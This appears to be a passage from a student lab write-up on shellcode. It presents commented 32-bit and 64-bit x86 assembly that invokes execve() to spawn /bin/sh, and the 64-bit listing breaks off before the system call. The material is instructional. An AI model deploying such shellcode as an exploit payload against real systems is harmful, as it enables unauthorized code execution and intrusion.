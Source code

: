 
![Alt text](image-17.png)
Fig 2. The C Version of Shellcode

This will run the program, which will open a new shell in the same directory it was run from.
### 3.2 32-bit Shellcode 
```
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp ; ebx --> "/bin//sh": execve()’s 1st argument
; Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()’s 2nd argument
; For environment variable
xor edx, edx ; edx = 0: execve()’s 3rd argument
; Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()’s system call number
int 0x80
```
In this task we just try to understand how the above shellcode works and basically invokes the execve() system call to execute /bin/sh.
### 3.3 64-Bit Shellcode
```assembly
xor rdx, rdx ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’ ; the command we want to run
push rax ;
mov rdi, rsp ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx ; argv[1] = 0
push rdi ; argv[0] --> "/bin//sh"
mov rsi, rsp ; rsi --> argv[]: execve()’s 2nd argument
```